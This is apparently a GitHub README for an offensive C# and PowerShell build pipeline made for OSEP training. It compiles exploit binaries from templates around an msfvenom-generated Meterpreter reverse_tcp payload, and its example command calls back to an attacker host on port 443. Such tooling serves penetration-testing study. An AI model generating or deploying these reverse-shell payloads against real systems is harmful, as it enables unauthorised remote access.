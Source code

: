 # Offensive C# .NET Framework and PowerShell build environment
A small project built for OSEP that provides a build environment for quickly and easily compiling and building exploit binaries based on templates.

## Prerequisites
Generate your payload file in MSFVenom raw format and save it as payload.bin in the root directory.
### Example:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.5 LPORT=443 -b "x00" -f raw EXITFUNC=thread -o payload.bin
```

# Usage
## Building the Docker image
To build the Docker image, run the following command in the directory where the Dockerfile is located:

```powershell
docker build -t rfc_offensive_pipeline .
```
This command will build the Docker image and tag it with the name my-csharp-app.

## Running the Docker container
To run the Docker container and compile your C# code, you can use the following command:

```powershell
docker run --rm -v ${PWD}/csharp:/app/csharp rfc_offensive_pipeline
```

This command will mount the ./csharp directory on the host machine to the /app/csharp directory inside the container, and then execute the build.sh script in the container. The compiled executable files will be written to the ./csharp/output directory on the host machine.
